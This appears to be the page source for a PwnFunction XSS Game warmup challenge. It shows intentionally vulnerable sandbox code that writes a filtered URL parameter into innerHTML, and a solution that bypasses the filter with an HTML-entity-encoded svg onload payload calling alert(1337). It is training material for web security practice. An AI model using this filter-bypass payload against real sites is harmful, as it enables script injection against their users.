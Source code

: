 ```yaml
---
title: "XSS Game - Ah That's Hawt | PwnFunction"
header: "Ah That's Hawt"
challengeUrl: "https://sandbox.pwnfunction.com/warmups/thats-hawt.html"
date: 2020-01-19T18:19:34+05:30
draft: false
type: warmup
difficulty: Easy
---
```


{{< rules >}}
<li>Difficulty is <b>Easy</b>.</li>
<li>Pop an <code>alert(1337)</code> on <code>sandbox.pwnfunction.com</code>.</li>
<li>No user interaction.</li>
<li>Cannot use <code>https://sandbox.pwnfunction.com/?html=&js=&css=</code>.</li>
<li>Tested on <b>Chrome</b>.</li>
{{</ rules >}}

{{< code >}}<code class="language-markup">&#x3C;!-- Challenge --&#x3E;
&#x3C;h2 id=&#x22;will&#x22;&#x3E;&#x3C;/h2&#x3E;
&#x3C;script&#x3E;
    smith = (new URL(location).searchParams.get(&#x27;markassbrownlee&#x27;) || &#x22;Ah That&#x27;s Hawt&#x22;)
    smith = smith.replace(/[\(\&#x60;\)\\]/g, &#x27;&#x27;)
    will.innerHTML = smith
&#x3C;/script&#x3E;</code>{{< /code >}}

{{< solution >}}
<p>Here we have a clear sink <code>will.innerHTML</code>, but <code>alert(1337)</code> can't be
    called because the filter removes <code>()`</code> characters. But the filter forgets to
    consider that the values of the attribtues can be HTML entity encoded, hence we simply encode
    the payload. Additionally we URL encode the payload because it has some URL unsafe characters
    like <code>&</code>.</p>

<pre class="solution-code-block"><code class="language-markup">&#x3C;!-- URL Encoding + HTML Entity Encoding --&#x3E;
%3Csvg%20onload%3D%22%26%23x61%3B%26%23x6C%3B%26%23x65%3B%26%23x72%3B%26%23x74%3B%26%23x28%3B%26%23x31%3B%26%23x33%3B%26%23x33%3B%26%23x37%3B%26%23x29%3B%22%3E

&#x3C;!-- HTML Entity Encoding --&#x3E;
&#x3C;svg onload=&#x22;&#x26;#x61;&#x26;#x6C;&#x26;#x65;&#x26;#x72;&#x26;#x74;&#x26;#x28;&#x26;#x31;&#x26;#x33;&#x26;#x33;&#x26;#x37;&#x26;#x29;&#x22;&#x3E;

&#x3C;!-- No Encoding --&#x3E;
&#x3C;svg onload=&#x22;alert(1337)&#x22;&#x3E;
</code></pre>
{{< /solution >}}